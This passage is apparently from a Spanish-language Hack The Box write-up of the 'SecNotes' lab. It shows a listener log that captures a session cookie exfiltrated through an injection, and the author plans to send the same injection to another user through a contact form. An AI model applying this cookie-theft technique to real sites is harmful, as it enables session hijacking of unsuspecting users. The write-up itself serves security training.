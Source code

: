 ![](/assets/images/htb-secnotes/secnotes-web8.png)

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.14.27 - - [21/Dec/2021 21:38:00] code 404, message File not found
10.10.14.27 - - [21/Dec/2021 21:38:00] "GET /kamiyo.jpg?cookie=PHPSESSID=oj8st60s6e5jr4bvl102j44dgv HTTP/1.1" 404 -
```

Vemos nuestra cookie de sessión, por lo tanto vamos a mandar la misma injección al usuario **Tyler** en el apartado de **Contact Us**. Sin embargo, no vemos una respuesta por parte del usuario.

![](/assets/images/htb-secnotes/secnotes-web9.png)

